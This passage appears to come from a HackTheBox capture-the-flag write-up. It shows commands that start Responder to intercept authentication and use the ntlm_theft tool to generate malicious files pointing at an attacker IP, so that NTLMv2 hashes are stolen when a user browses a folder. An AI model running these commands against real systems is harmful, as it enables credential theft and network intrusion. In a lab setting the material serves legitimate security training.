 there is a tool called [ntl_theft](https://github.com/Greenwolf/ntlm_theft) that creates several files that could potentially be used to steal the NTLMv2 hash of a user just by accessing a folder.

So, first of all, we set up Responder to intercept any potential authentication requests.

```sh
# start responder
responder -I tun0 -v

# Then, we clone the ntl_theft tool and create our malicious files.
git clone https://github.com/Greenwolf/ntlm_theft
cd ./ntlm_theft
python3 ntlm_theft.py --generate all --server 10.10.14.67 --filename htb
```

![screenshot](/assets/images/flight16.png)

![screenshot](/assets/images/flight17.png)
